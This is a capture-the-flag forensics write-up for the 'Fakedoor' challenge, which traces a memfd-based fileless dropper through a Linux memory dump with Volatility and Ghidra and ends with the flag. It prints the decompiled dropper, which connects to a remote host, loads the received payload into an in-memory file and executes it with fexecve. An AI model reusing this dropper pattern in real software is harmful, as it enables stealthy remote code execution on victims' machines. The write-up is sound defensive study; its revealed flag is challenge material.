# CCSC2022 - Fakedoor

**Category:** Forensics

**Author:** icyDux

### Description

Rick was furious when he heard that his naive nephew Morty clicked on a 
phishing e-mail about Real Fake Doors. Fortunately, Rick had managed to 
take a memory snapshot before Morty's computer was fully infected. Help 
Rick to find out what happened.

### Assets

We are provided with a download link to a Linux memory dump. After extracting the downloaded archive we are left with a memory dump and a volatility profile. Since we have a volatility profile I went ahead a used Vol 2 for this challenge. In order for volatility to use the provided profile I copied it to `<volatility repo>/volatility/plugins/overlays/linux/`


Google Drive link: [fakedoor.gz](https://drive.google.com/file/d/1PLy_oO2P0fR-6ltu9YzSpU9d4fpvLdh7/view?usp=sharing)

### First Inspection

Running using the plugin `linux_psaux` yields the processes currently running on the machine. We can make out an unusual process being executed called `dr0ppe3r`



### Extracting and Examining the malware







We can now use Ghidra or some other tool to reverse it. 

```c
undefined8 FUN_004007f0(void)

{
  int iVar1;
  ssize_t sVar2;
  undefined local_428 [1024];
  char *local_28;
  undefined8 local_20;
  undefined8 local_18;
  int local_10;
  int local_c;

  local_18 = 0xb5ca8c011110002;
  local_28 = "b4ckd00r";
  local_20 = 0;
  local_c = socket(2,1,6);
  if (local_c < 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  iVar1 = connect(local_c,(sockaddr *)&local_18,0x10);
  if (iVar1 < 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  local_10 = FUN_004007c6("s3cr3t",1);
  if (local_10 < 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    sVar2 = read(local_c,local_428,0x400);
    if (sVar2 < 1) break;
    write(local_10,local_428,0x400);
  }
  close(local_c);
  sleep(0x14);
  iVar1 = fexecve(local_10,&local_28,_DAT_00600d68);
  if (iVar1 < 0) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  return 0;
}
```

This program connects to a remote machine and afterwards calls the `FUN_004007c6` which is a `syscall` wrapper:

```c
void FUN_004007c6(undefined8 param_1,uint param_2)

{
  syscall(0x13f,param_1,(ulong)param_2);
  return;
}
```

The `syscall` ID of `319` corresponds to `memfd_create`, which creates a "file" that resides in memory and returns a file descriptor to that file. More [here](https://man7.org/linux/man-pages/man2/memfd_create.2.html). It then receives data and eventually writes them to said `fd`. After finishing receiving it executes that file using `fexecve()` which is the same as `execve()` but the file resides in memory, so you pass a `fd` as the first argument.

So it's becoming clear that our goal is to find what was written in that file.

### Down the rabbit hole

I spent almost a week searching everywhere about how can we detect and read from a file descriptor in memory, but with no results. I came across what I think was the inspiration for this challenge, even the source code was identical 

[Super-Stealthy Droppers - Malware - 0x00sec - The Home of the Hacker](https://0x00sec.org/t/super-stealthy-droppers/3715)

I knew I had to use the `volshell` to traverse the memory more interactively.

I fired up `volshell` and I displayed the current `task_struct` ([source](https://elixir.bootlin.com/linux/v3.16/source/include/linux/sched.h#L1224)):



A member of the `task_struct` is the `files` struct which holds a table (`fdt`) that depicts the file descriptors for the task. ([source](https://elixir.bootlin.com/linux/v3.16/source/include/linux/fdtable.h#L45)).



 This struct closely represents the struct found [here](https://elixir.bootlin.com/linux/v3.16/source/include/linux/fdtable.h#L24). My next thought was to traverse the `fd` member which is a double pointer to a `file` struct, meaning the `fd` is an array of pointers to all the `file` structs of the task. 



This should be the first file in the list with the `f_u` member pointing to the next one. However when I tried to switch to the next one the `next` member was NULL thus this 'node' was the last in the list, and also the first... I dumped the `f_inode` of this file but it was empty, and also tried traversing a little deeper in the struct finding the name of the file which also didn't help.

I did not know what to make of this and was stuck here for a couple of days...

### Solution

I remember that the `linux_lsof` plugin displays the opened file descriptors 



Now I just need a way to 'view' this file descriptor as the `file` struct to grab the `f_inode`

Back to `volshell`, I used the same plugin but using it within `volshell` we can display the addresses:



Now we have to display the `file` struct at address `0xFFFF8800370B4300`... Can we just cast that address to a `file` struct? 



I guess... but traversing this struct would be a painfully aggravating because we would have to cast every address to its respective struct. However we have the `f_inode` so we can dump the file it points to.

 

And we have another executable! Let's examine it with Ghidra!

```c
undefined8 main(void)

{
  FILE *__stream;
  uint uVar1;
  uint local_18;

  for (local_18 = 0; local_18 < 0x21; local_18 = local_18 + 1) {
    uVar1 = (uint)((int)local_18 >> 0x1f) >> 0x1c;
    b[(int)local_18] = b[(int)local_18] ^ a[(int)((local_18 + uVar1 & 0xf) - uVar1)];
  }
  __stream = fopen("/dev/null","w+");
  fputs(b,__stream);
  return 0;
}
```

A simple loop that calculates some characters and prints them to null. Instead of reversing it let's just debug it and check the contents of `b` just before the call to `puts`.





We got the flag! 

`CCSC{m3mfd_b4ckd00r5_4r3_c00l!!!}` 

One of my favorite challenges in the competition. It opened me up to new techniques that I had no clue about, both offensive and defensive. Big thanks to `icyDux` for creating such a cool challenge!
